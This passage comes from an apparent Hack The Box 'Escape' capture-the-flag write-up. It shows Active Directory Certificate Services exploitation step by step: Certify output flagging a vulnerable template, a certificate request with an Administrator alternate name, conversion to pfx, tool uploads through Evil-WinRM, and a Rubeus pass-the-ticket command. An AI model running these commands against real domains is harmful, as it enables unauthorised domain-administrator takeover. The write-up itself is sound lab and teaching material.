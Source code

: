 ```
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519



Certify completed in 00:00:09.8318109
```

We can see here that the UserAuthentication template is vulnerable. 

To exploit this we can run:
```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

And we will be issued an rsa key and a certificate:

escape_cert.png

Lets copy these files (all as one) back to our Kali machine and save it in a file called cert.pem.

Back on Kali we can then convert the file to .pfx by running:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```
I elected to not include a password just by pressing enter.

Lets then transfer both the cert.pfx file as well as a copy of Rubeus.exe to the target:

```
*Evil-WinRM* PS C:\temp> upload ~/Tools/AD/kerberos/Rubeus.exe
Info: Uploading ~/Tools/AD/kerberos/Rubeus.exe to C:\temp\Rubeus.exe

                                                             
Data: 588456 bytes of 588456 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\temp> upload ~/HTB/Escape/cert.pfx
Info: Uploading ~/HTB/Escape/cert.pfx to C:\temp\cert.pfx

                                                             
Data: 4564 bytes of 4564 bytes copied

Info: Upload successful!
```
We can now  run:
```
*Evil-WinRM* PS C:\temp> .\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /outfile:ticket /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
```